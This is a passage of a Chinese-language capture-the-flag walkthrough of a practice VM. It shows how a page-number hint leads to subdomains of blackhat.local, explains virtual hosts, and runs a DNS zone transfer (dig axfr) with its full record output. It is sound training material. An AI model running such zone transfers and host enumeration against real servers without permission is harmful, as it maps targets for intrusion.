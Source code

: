 ```
http://172.16.42.207/?page_no=1
```

page_no=21的时候，出现如下

```
Okay so you want me to speak something ?
I am a hacker kid not a dumb hacker. So i created some subdomains to return back on the server whenever i want!!
Out of my many homes...one such home..one such home for me : hackers.blackhat.local
```

提示了放了多个后门域名，其中有` hackers.blackhat.local`域名。

对于同一个ip，同一个端口，其实也可以通过不同的域名访问不同的系统。叫做虚拟主机。

我们可以编辑/etc/hosts添加域名对应ip，也可以抓包替换host。

当我们访问hackers.blackhat.local没发现不同，blackhat.local是403。



### DNS axfr 攻击（DNS域传输漏洞）

可以对一个dns服务器发一个axfr请求，如果服务器支持，就会返回指定域的所有dns主机记录。

对于一个正常的dns服务器，他的axfr请求应该是服务器直接通过53tcp端口进行数据传输用的。

使用dig命令请求

```
[root@kali ~]# dig axfr @172.16.42.207 blackhat.local

; <<>> DiG 9.16.11-Debian <<>> axfr @172.16.42.207 blackhat.local
; (1 server found)
;; global options: +cmd
blackhat.local.		10800	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
blackhat.local.		10800	IN	NS	ns1.blackhat.local.
blackhat.local.		10800	IN	MX	10 mail.blackhat.local.
blackhat.local.		10800	IN	A	192.168.14.143
ftp.blackhat.local.	10800	IN	CNAME	blackhat.local.
hacker.blackhat.local.	10800	IN	CNAME	hacker.blackhat.local.blackhat.local.
mail.blackhat.local.	10800	IN	A	192.168.14.143
ns1.blackhat.local.	10800	IN	A	192.168.14.143
ns2.blackhat.local.	10800	IN	A	192.168.14.143
www.blackhat.local.	10800	IN	CNAME	blackhat.local.
blackhat.local.		10800	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
;; Query time: 3 msec
;; SERVER: 172.16.42.207#53(172.16.42.207)
;; WHEN: Sat Nov 19 03:17:55 EST 2022
;; XFR size: 11 records (messages 1, bytes 353)
```



替换host为发现的Host头`hackerkid.blackhat.local`

